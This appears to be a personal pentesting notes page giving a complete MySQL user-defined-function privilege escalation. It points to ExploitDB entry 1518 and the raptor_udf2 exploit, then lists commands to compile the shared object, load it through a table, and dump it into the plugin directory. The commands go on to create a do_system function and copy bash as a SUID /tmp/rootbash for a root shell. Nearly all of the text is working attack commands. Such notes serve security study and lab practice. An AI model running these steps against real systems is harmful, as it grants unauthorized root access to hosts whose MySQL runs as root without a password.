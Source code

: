 -- -
### User-Defined Function PrivEsc
mysql is vulnerable if the service is running as root w/o a password and the version is `4.x` or `5.x`. 
##### Get Exploit Code
[ExploitDB](https://www.exploit-db.com/exploits/1518)
```bash
# or use searchsploit
# should be 1518.c
searchsploit mysql 4.x/5.0 
searchsploit -m 1518
```
##### Exploit
*Note: The instructions in the exploit may or may not work, when I did in practice I needed slightly different commands to get it to work so mileage may vary.*
[[Dark Arts I/File Transfer/Linux|File Transfer]] C code to target, or compile on attack box, then file transfer binary to target
```bash
# compile object file
gcc -g -c raptor_udf2.c -fPIC

# compile object to Shared Object (Dynamic Library) file\
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

# log into mysql w/ or w/o password
mysql -u root
mysql -u root -p # will prompt for password
mysql -u root -p<password> 

# use mysql db
use mysql;

# create a table in mysql
create table foo(line blob);

# insert value into table that loads your malicious shared object file
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

# dump loaded malicious shared object file into the required location, this may or may not be different. If in the next command you get an error, it will tell you where you need to put the malicious shared object file, so come back to this step if needed, you can redo it as many times as you want.
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

# create the function
# again, if you get an error, go back to the previous step.
create function do_system returns integer soname 'raptor_udf2.so';

# have it copy the bash binary and set it as executable and set it to have the SUID bit. 
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

# exit mysql
exit

# then just run your new suid bash binary
/tmp/rootbash -p

# and you should have root
```